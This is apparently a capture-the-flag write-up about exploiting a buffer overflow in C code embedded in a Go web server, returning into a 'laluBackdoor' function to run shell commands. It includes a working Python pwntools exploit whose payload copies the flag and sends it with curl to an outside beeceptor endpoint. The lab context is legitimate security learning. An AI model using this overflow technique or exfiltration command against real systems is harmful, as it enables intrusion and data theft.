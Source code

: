 ```go
	defer func() {
		log.Println(r.URL.Path)
		w.Write([]byte("OK Annie?!\n"))
	}()
}

func main() {
	http.HandleFunc("/", handleRequest)
	http.HandleFunc("/areyou", handleOK)
	http.ListenAndServe(":3000", nil)
}
```

In Go, the `unsafe` function allows to define external C functions
that are included in the binary at compile time. These function can be
called in the Go code.

Here, two functions are included: `unsafeFunction` which reads its
argument and prints it, and `laluBackdoor` which executes a Bash command.

There is a clear buffer overflow in `unsafeFunction`: 128 bytes are
read in a 64-byte buffer.

The goal is to overwrite its return address thanks to the buffer
overflow, return to `laluBackdoor` function and execute arbitrary
commands.

To find the address of `laluBackdoor`, we can look at the compiled
binary in Ghidra ; the program is compiled without PIE. The input
passed through the parameter `gown` is stored in the environment
variable `${GOWN}`, thus it suffices to return to `laluBackdoor` to
execute the commands of our choice.

![challenge](./img/07-ghidra.png)

The payload will then be `command[64-BYTE
PADDING][@laluBackdoor]...[@laluBackdoor]`. I chose to exfiltrate the
flag through an HTTP request to a beeceptor endpoint. The name of the
flag file, available in the Dockerfile, is too long to send the flag
in a single command. Instead I copied the flag to `/tmp/flag` then
exfiltrated it.

```python
import requests
import urllib.parse
from pwn import *

#payload = b'cp /flag/randomflagdockersayspouet.txt /tmp/flag\x00' # first run
payload = b'curl -d @/tmp/flag https://spikeroot.free.beeceptor.com' # second run
payload += b' '
payload += b'#'*(56-len(payload))
payload += p64(0x0061eb91)*10
encoded_payload = urllib.parse.quote_plus(payload)

print(encoded_payload)

r = requests.get("http://dyn-01.xmas.root-me.org:31161/?gown=" + encoded_payload, verify=False)
```
